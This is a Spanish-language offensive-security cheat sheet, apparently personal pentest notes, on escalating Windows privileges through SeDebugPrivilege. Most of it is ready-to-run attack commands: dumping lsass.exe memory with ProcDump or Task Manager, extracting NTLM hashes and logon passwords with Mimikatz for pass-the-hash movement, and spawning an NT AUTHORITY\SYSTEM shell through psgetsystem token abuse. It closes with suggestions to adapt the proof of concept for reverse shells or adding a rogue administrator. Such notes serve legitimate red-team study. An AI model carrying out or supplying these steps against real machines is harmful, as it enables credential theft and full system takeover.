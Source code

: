 
# 🛠 Escalada de Privilegios con SeDebugPrivilege

## 🧠 ¿Qué es SeDebugPrivilege?

- Permite depurar procesos, incluyendo los protegidos por el sistema.
- Por defecto, lo tienen los **administradores locales**.
- Puede asignarse a otros usuarios vía GPO.
- Da acceso a **componentes críticos del sistema operativo**.
- Común en cuentas de **desarrolladores o técnicos**.

---

## 🔍 Enumeración y Contexto

- A veces se asigna a usuarios no administradores.
- No siempre se detecta con herramientas como **BloodHound**.
- Interesante si se capturan hashes NTLMv2 con **Responder** o **Inveigh**.

---

## 🔧 Verificar privilegios activos

```bash
whoami /priv
```

Buscar que `SeDebugPrivilege` esté listado (aunque inicialmente puede estar deshabilitado).

---

## 📥 Volcado de memoria con ProcDump

1. Usar [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump):
   ```bash
   procdump.exe -accepteula -ma lsass.exe lsass.dmp
   ```

2. Procesar con **Mimikatz**:
   ```bash
   sekurlsa::minidump lsass.dmp
   sekurlsa::logonPasswords
   ```

3. Obtener hashes NTLM y otros datos útiles para **lateral movement** con **Pass-the-Hash**.

---

## 🖱 Alternativa gráfica: Task Manager

1. Abrir Task Manager > pestaña *Details*.
2. Clic derecho sobre `lsass.exe` > *Create dump file*.
3. Descargar archivo `.dmp` y procesar con **Mimikatz** como arriba.

---

## 🧬 RCE como SYSTEM usando PowerShell

### Usar token del proceso SYSTEM:

1. Obtener PID de proceso SYSTEM:
   ```powershell
   tasklist | findstr winlogon
   ```

2. Ejecutar PoC:
   - Usar [psgetsystem](https://github.com/decoder-it/psgetsystem)
   ```powershell
   [MyProcess]::CreateProcessFromParent(612,"cmd.exe","")
   ```

3. Verás una shell como **NT AUTHORITY\SYSTEM**.

---

## 🔁 Automatizar con `Get-Process`

```powershell
$pid = (Get-Process -Name winlogon).Id
[MyProcess]::CreateProcessFromParent($pid,"cmd.exe","")
```

---

## 💡 Consideraciones

- Puedes modificar el PoC para ejecutar:
  - Reverse shells.
  - Agregar un nuevo usuario administrador.
- Útil cuando:
  - No puedes cargar herramientas.
  - Tienes una **web shell** o **command injection**.
  - El volcado de `lsass` no contiene credenciales útiles.

---

## 📌 Buenas prácticas

- Siempre ejecutar:
  ```mimikatz
  log
  ```
  antes de cualquier comando, para guardar la salida.
